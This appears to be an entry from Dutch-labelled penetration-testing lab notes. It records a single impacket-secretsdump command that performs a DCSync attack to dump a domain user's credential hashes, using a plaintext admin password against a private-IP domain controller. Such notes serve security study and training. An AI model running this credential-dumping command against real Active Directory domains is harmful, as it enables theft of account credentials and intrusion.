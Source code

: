 # 23. AD authentication — Entry 34

## Categorie

dcsync attack - impacket-secretsdump

## Commando

```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.223.70
```

## Omschrijving

```
Using impacket secretsdump to perform the dcsync attack
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

